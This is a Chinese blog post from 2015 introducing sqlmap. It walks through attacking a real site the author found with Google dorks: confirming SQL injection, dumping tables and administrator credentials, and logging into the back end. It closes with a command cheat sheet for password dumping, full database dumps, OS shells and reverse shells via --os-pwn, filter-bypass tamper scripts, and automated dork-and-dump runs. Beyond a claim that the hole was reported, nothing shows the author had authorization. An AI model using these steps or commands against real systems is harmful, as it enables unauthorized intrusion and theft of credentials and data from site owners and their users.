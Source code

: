 ```yaml
---
layout: post
title:  "sqlmap 入门"
image: ''
date:   2015-12-11 00:06:31
tags:
- web
- sqlmap
- penetration
description: ''
categories:
- web
---
```



> 本文写于 2015.12.11
>
> 本人是遵纪守法的好少年，已上报给乌云

这次攻击毫无技术门槛，任何人都可以复制。只因是自己的第一次嘛，大家都懂的，趁这个机会也学习了些 sqlmap 和 sql 的知识，哈哈哈哈，开心就好。

Sqlmap 是一款非常强大的开源 sql 自动化注入工具，可以用来检测和利用sql注入漏洞。它由python语言开发而成，因此需要安装python环境。

注意： sqlmap 只用来检测和利用 sql 注入点，并不能扫描出网站有哪些漏洞。

首先当然是找到目标，通过一些 Google 的搜索技巧可以找到些问题网站，下面是几个常见的：
- `inurl:index.php?id=`
- `inurl:trainers.php?id=`
- `inurl:buy.php?category=`
- `inurl:article.php?ID=`
- `inurl:play_old.php?id=`
- `inurl:declaration_more.php?decl_id=`
- `inurl:pageid=`
- `inurl:games.php?id=`
- `inurl:page.php?file=`
- `inurl:newsDetail.php?id=`
- `inurl:gallery.php?id=`

通过搜索 `inurl:newsDetail.php?id=` ，我发现了下面这个网站。

![](/post_pic/2015-12-11-sqlmap/sqlmap_1.jpg)

点开，在网址最后输入一个单引号( ‘ )，出现如下错误信息，说明这个站点存在 sql 注入漏洞。

![](/post_pic/2015-12-11-sqlmap/sqlmap_2.jpg)

接下来利用 Sqlmap 来进行信息收集，先看几个常用的参数：
- `-u` ：该参数后面跟注入的目标URL。
- `–dbms` ：后面是目标站点所使用的数据库类型，注意要用分号来包含。
- `–current-user` ：该参数含义是显示当前管理数据的用户，同时也会显示最终确定的数据库类型。
- `–current-db` ：显示当前连接的数据库名称。
- `–tables` ：列出当前数据库的所有的表名。
- `-C` ：指定我们要猜的字段内容，与 -dump 一起使用。
- `-D` ：指定数据库名称。
- `–columns` ：列出指定表中的字段。
- `-v` ：指定哪个字段开始列出结果，一般后面跟0。

下面开始实战。

第一步，我们来扫面当前网站的用户。

![](/post_pic/2015-12-11-sqlmap/sqlmap_3.jpg)

得到了数据库版本和当前用户信息。

![](/post_pic/2015-12-11-sqlmap/sqlmap_4.jpg)

第二步，获取当前数据库。

![](/post_pic/2015-12-11-sqlmap/sqlmap_5.jpg)

获取的数据库名称。

![](/post_pic/2015-12-11-sqlmap/sqlmap_6.jpg)

第三步，利用已知信息，结合参数“–tables”，来猜数据库中的表名。

![](/post_pic/2015-12-11-sqlmap/sqlmap_7.jpg)

获取的数据库中的表名。

![](/post_pic/2015-12-11-sqlmap/sqlmap_8.jpg)

注意：一般与网站后台相关的字段，比如“username, password, admin”等登陆相关的表名要重点关注。

第四步，在这个例子中，相关的是“dl”这个表。

![](/post_pic/2015-12-11-sqlmap/sqlmap_9.jpg)

得到下面这个表。

![](/post_pic/2015-12-11-sqlmap/sqlmap_10.jpg)

第五步，见证奇迹的时刻到了，利用参数组合获取信息。

![](/post_pic/2015-12-11-sqlmap/sqlmap_11.jpg)

得到下面的用户名和密码。

![](/post_pic/2015-12-11-sqlmap/sqlmap_12.jpg)

第六步，登陆后台后我们就大功告成了。

![](/post_pic/2015-12-11-sqlmap/sqlmap_13.jpg)

就这样，打完收工，好简单啊感觉。

参考资料：
- http://sqlmap.org/
- http://drops.wooyun.org/tips/143
- http://drops.wooyun.org/tips/401


#### 基本步骤
```
sqlmap -u “http://url/news?id=1“ –current-user 获取当前用户名称
sqlmap -u “http://url/news?id=1“ –current-db 获取当前数据库名称
sqlmap -u “http://url/news?id=1“ –tables -D “db_name” 列表名
sqlmap -u “http://url/news?id=1“ –columns -T “tablename” -D “db_name” -v 0 　　　　　 列字段
sqlmap -u “http://url/news?id=1“ –dump -C “column_name” -T “table_name” -D “db_name” -v 0 获取字段内容
```

#### 信息获取
```
sqlmap -u “http://url/news?id=1“ –smart –level 3 –users smart(智能)，level(执行测试等级)
sqlmap -u “http://url/news?id=1“ –dbms “mysql” –users users列数据库用户，dbs列数据库
sqlmap -u “http://url/news?id=1“ –passwords 数据库用户密码
sqlmap -u “http://url/news?id=1“ –passwords -U root -v 0 列指定用户数据库密码
sqlmap -u “http://url/news?id=1“ –dumps -C “column_name” -T “table_name” -D “db_name” –start 1 –stop 20 　　　 列出指定字段
sqlmap -u “http://url/news?id=1“ –dump-all -v 0 列出所有数据库所有表
sqlmap -u “http://url/news?id=1“ –privileges -U root 查看指定用户权限
sqlmap -u “http://url/news?id=1“ –is-dba -v 1 是否是数据库管理员
sqlmap -u “http://url/news?id=1“ –roles 枚举数据库用户角色
sqlmap -u “http://url/news?id=1“ –udf-inject 导入用户自定义函数(获取系统权限！)
sqlmap -u “http://url/news?id=1“ –dump-all –exclude-sysdbs -v 0 列出当前库所有表
sqlmap -u “http://url/news?id=1“ –union-cols union查询表记录
sqlmap -u “http://url/news?id=1“ –cookie “COOKIE_VALUE” cookie注入
sqlmap -u “http://url/news?id=1“ –data “id=3” post注入
sqlmap -u “http://url/news?id=1“ -v 1 -f 指纹判别数据库类型
sqlmap -u “http://url/news?id=1“ –proxy “http://127.0.0.1:8118“ 代理注入
sqlmap -u “http://url/news?id=1“ –string “STRING_ON_TRUE_PAGE” 指定关键词
sqlmap -u “http://url/news?id=1“ –sql-shell 执行指定sql命令
sqlmap -u “http://url/news?id=1“ –os-cmd=whoami 执行系统命令
sqlmap -u “http://url/news?id=1“ –os-shell 系统交换shell
sqlmap -u “http://url/news?id=1“ –os-pwn 反弹shell
sqlmap -u “http://url/news?id=1“ –reg-read 读取windows系统注册表
sqlmap -u “http://url/news?id=1“ –dbs-o “sqlmap.log” 保存进度
sqlmap -u “http://url/news?id=1“ –dbs-o “sqlmap.log” –resume 恢复已保存进度
sqlmap -u “http://url/news?id=1“ –msf-path=/…/msf2 –os-pwn 反弹shell需要metasploit路径
sqlmap -u “http://url/news?id=1“ –tamper “base64encode.py” 加载脚本(可利用绕过注入限制)
sqlmap -g “google语法” –dump-all –batch google搜索注入点自动跑出所有字段
```
